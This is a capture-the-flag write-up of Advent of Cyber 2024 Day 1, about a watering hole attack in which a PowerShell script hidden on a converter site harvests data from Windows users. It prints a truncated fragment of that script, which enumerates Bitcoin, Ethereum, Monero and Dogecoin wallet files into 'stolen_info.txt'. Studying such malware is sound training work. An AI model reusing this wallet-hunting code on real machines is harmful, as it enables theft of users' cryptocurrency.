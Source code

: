 ```powershell
# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

[Output truncated for brevity]
```


### Quick Review
### Advent of Cyber 2024 - **Day 1 Review**

**Challenge Summary**:  
The malicious actor, **M.M.**, embedded a **PowerShell script** in a seemingly innocent **YouTube-to-song converter website**. This script was designed to harvest credentials from users on **Windows systems**.

**Approach & Key Steps**:

1. **Download & Inspect the File**:
    
    - Downloaded the suspicious file from the converter site.
    - Analyzed the file using **ExifTool** to uncover hidden metadata and scripts.
2. **Trace the Malicious Script**:
    
    - Found references to M.M.'s **GitHub issues**, where the malicious PowerShell script was hosted.
    - The script's purpose was to steal user credentials.
3. **Respond to Questions**:
    
    - Answered questions based on findings, completing the guided room.

**Key Learnings**:

- **Watering Hole Attack**: This involves compromising commonly visited websites/tools to infect users.
- **File Metadata Analysis**: Tools like **ExifTool** can uncover hidden content in files, which is invaluable in investigating malware or suspicious activity.
- **PowerShell Abuse**: PowerShell scripts are often used in attacks for credential theft and payload delivery. Proper logging (e.g., **Sysmon**) is crucial to detect such threats.
- **Importance of Guided Labs**: Exercises like these build fundamental skills in a SOC role and help develop intuition for real-world scenarios.

**Reflection**:  
This task was straightforward, thanks to prior experience with similar labs in **BTLO**. The guided format made navigation easy, reinforcing core investigative techniques.